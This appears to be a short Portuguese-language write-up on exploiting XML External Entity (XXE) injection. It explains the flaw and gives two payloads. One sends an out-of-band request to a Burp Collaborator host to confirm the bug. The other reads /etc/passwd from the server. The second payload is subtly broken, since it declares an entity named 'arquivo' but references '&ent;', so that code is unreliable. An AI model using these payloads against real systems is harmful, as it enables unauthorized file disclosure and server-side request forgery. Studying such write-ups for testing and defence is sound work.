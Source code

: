 **XML External Entity**, popularmente conhecido pela sigla **XXE**, é uma falha grave que permite ao invasor a **leitura de arquivos** do servidor, e em alguns casos, forjar as requisições então feitas por ele (**SSRF**), e até mesmo resultar em um **Remote Code Execution**. A vulnerabilidade ocorre porque servidor **não valida** o XML imposto pelo atacante como algo malicioso e controlável. Como o XML possui permissão server side utilizando a opção **SYSTEM** do XML, nós podemos assim, ler arquivos de dentro do server.

```xml
<?xml version="1.0"?>
<!DOCTYPE teste [
<!ENTITY site SYSTEM "http://l3p4nz7oamh2s0t1xhrwkohi79dz1o.burpcollaborator.net/">]>
<aa><resultado>&site;</resultado></aa>
```

Acima está o payload que eu utilizei para validar a existência do XXE. Explicando de maneira simplificada, eu crio um **ENTITY** com permissão de **SYSTEM**, e o mesmo irá mandar uma requisição pro meu **BurpSuite Collaborator**. Feito isso, eu criptografei utilizando URLEncode e adivinhem? Recebi uma requisição! ☠️

![Untitled](Hijacking%206ac706b6cc614111a8c65575a1e87471/Untitled%203.png)

Sucesso! A falha foi encontrada e validada! Vamos agora partir para a exploração do mesmo.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE teste [<!ENTITY arquivo SYSTEM "file:///etc/passwd"> ]>
<name>
 <author>marchosias</author>
 <comment>&ent;</comment>
</name>
```
